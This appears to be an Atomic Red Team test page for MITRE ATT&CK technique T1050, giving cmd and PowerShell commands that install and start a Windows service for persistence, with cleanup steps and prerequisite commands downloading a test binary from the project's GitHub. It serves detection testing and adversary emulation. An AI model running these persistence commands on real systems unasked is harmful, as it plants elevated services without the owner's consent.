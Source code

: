 # T1050 - New Service
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1050)
<blockquote>When operating systems boot up, they can start programs or applications called services that perform background system functions. (Citation: TechNet Services) A service's configuration information, including the file path to the service's executable, is stored in the Windows Registry. 

Adversaries may install a new service that can be configured to execute at startup by using utilities to interact with services or by directly modifying the Registry. The service name may be disguised by using a name from a related operating system or benign software with [Masquerading](https://attack.mitre.org/techniques/T1036). Services may be created with administrator privileges but are executed under SYSTEM privileges, so an adversary may also use a service to escalate privileges from administrator to SYSTEM. Adversaries may also directly start services through [Service Execution](https://attack.mitre.org/techniques/T1035).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Service Installation](#atomic-test-1---service-installation)

- [Atomic Test #2 - Service Installation PowerShell Installs A Local Service using PowerShell](#atomic-test-2---service-installation-powershell-installs-a-local-service-using-powershell)


<br/>

## Atomic Test #1 - Service Installation
Installs A Local Service

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| binary_path | Name of the service binary, include path. | Path | PathToAtomicsFolder\T1050\bin\AtomicService.exe|
| service_name | Name of the Service | String | AtomicTestService|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sc.exe create #{service_name} binPath= #{binary_path}
sc.exe start #{service_name}
```

#### Cleanup Commands:
```cmd
sc.exe stop #{service_name}
sc.exe delete #{service_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: Service binary must exist on disk at specified location (#{binary_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{binary_path}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{binary_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1050/bin/AtomicService.exe" -OutFile "#{binary_path}"
```




<br/>
<br/>

## Atomic Test #2 - Service Installation PowerShell Installs A Local Service using PowerShell
Installs A Local Service via PowerShell

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| binary_path | Name of the service binary, include path. | Path | PathToAtomicsFolder\T1050\bin\AtomicService.exe|
| service_name | Name of the Service | String | AtomicTestService|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-Service -Name "#{service_name}" -BinaryPathName "#{binary_path}" 2>&1 | Out-Null
Start-Service -Name "#{service_name}"
```

#### Cleanup Commands:
```powershell
Stop-Service -Name "#{service_name}" 2>&1 | Out-Null
try {(Get-WmiObject Win32_Service -filter "name='#{service_name}'").Delete()}
catch {}
```



#### Dependencies:  Run with `powershell`!
##### Description: Service binary must exist on disk at specified location (#{binary_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{binary_path}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{binary_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1050/bin/AtomicService.exe" -OutFile "#{binary_path}"
```




<br/>
